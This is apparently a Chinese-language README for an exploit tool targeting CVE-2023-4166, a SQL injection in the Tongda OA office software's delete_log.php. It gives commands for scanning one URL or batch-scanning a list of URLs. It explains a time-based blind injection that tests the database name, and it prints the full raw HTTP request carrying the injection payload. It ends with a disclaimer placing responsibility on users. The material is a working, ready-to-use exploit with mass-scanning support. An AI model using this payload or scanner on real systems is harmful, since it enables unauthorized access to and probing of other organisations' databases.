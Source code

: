 # CVE-2023-4166

通达OA general/system/seal_manage/dianju/delete_log.php 存在SQL注入漏洞。


## 工具利用

python3 CVE-2023-4166.py -u http://127.0.0.1:1111 单个url测试

python3 CVE-2023-4166.py -f url.txt 批量检测

扫描结束后会在当前目录生成vuln.txt记录存在漏洞的url
![](./poc.jpg)

漏洞原理是用两次请求延时注入判断数据库第一个字符是否为T，如果第一次延时成功并且第二次没有延时则认为存在漏洞

## exp 

```
GET /general/system/seal_manage/dianju/delete_log.php?DELETE_STR=1)%20and%20(substr(DATABASE(),1,1))=char(84)%20and%20(select%20count(*)%20from%20information_schema.columns%20A,information_schema.columns%20B)%20and(1)=(1 HTTP/1.1
Host: 127.0.0.1:8080
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/116.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1

```
![](./exp.jpg)

## 免责声明

由于传播、利用此文所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，作者不为此承担任何责任。
